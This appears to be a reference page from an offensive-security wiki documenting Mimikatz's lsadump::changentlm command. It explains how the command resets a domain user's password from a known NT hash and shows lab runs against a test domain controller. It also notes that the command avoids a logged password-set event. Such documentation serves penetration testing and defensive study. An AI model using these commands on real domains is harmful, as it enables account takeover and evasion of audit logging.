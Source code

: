 # changentlm

It can be used to change the password of a user. It accepts either a clear-text password or an NT hash. [According to Benjamin](https://twitter.com/gentilkiwi/status/872588656967548928?s=20) this option avoids the "setpassword" event but it requires to know the previous password or NT hash. It has the following command line arguments:

* `/newpassword`: The new clear text password for the target user
* `/oldpassword` : The existing clear text password to change
* `/user`: the target user account
* `/oldntlm` or `/old` : The existing NTLM hash to change
* `/newntlm` or `/new` : The new NTLM hash for the target user
* `/server`: The domain controller FQDN

{% hint style="info" %}
LM and NT hashes are used to authenticate accounts using the NTLM protocol. These hashes are often called NTLM hash and many documentations, resources, blogpost and tools mix terms. In this case, "ntlm" refers to the NT hash.

([more information](https://www.thehacker.recipes/ad/movement/ntlm))
{% endhint %}

{% hint style="info" %}
A low privileged user can also utilise it to change his/her own password.
{% endhint %}

```
mimikatz # lsadump::changentlm /server:DC.hacklab.local /user:adriane.lena /old:cded5acd2c1fc0f816c63ef317937deb /newpassword:WhatEverYouWant
OLD NTLM     : cded5acd2c1fc0f816c63ef317937deb
NEW NTLM     : e0e12e5f0fba8f1efbff3a7ceea6e907

Target server: DC.hacklab.local
Target user  : adriane.lena
Domain name  : hacklab
Domain SID   : S-1-5-21-2725560159-1428537199-2260736313
User RID     : 1479

>> Change password is a success!
```

While [lsadump::setntlm](setntlm.md) seems to work multiple times for the same user account, this is not the case for `lsadump::changentlm`. According to this [issue](https://github.com/gentilkiwi/mimikatz/issues/201) on mimikatz's Github, a user cannot change his password more than one per day.

```
mimikatz # lsadump::changentlm /server:DC.hacklab.local /user:optimus /old:b09a14d2d325026f8986d4a874fbcbc7 /newpassword:WhatEverYouWant
OLD NTLM     : b09a14d2d325026f8986d4a874fbcbc7
NEW NTLM     : e0e12e5f0fba8f1efbff3a7ceea6e907

Target server: DC.hacklab.local
Target user  : optimus
Domain name  : hacklab
Domain SID   : S-1-5-21-2725560159-1428537199-2260736313
User RID     : 1732
ERROR kuhl_m_lsadump_changentlm_callback ; Bad new NTLM hash or password! (restriction)
```
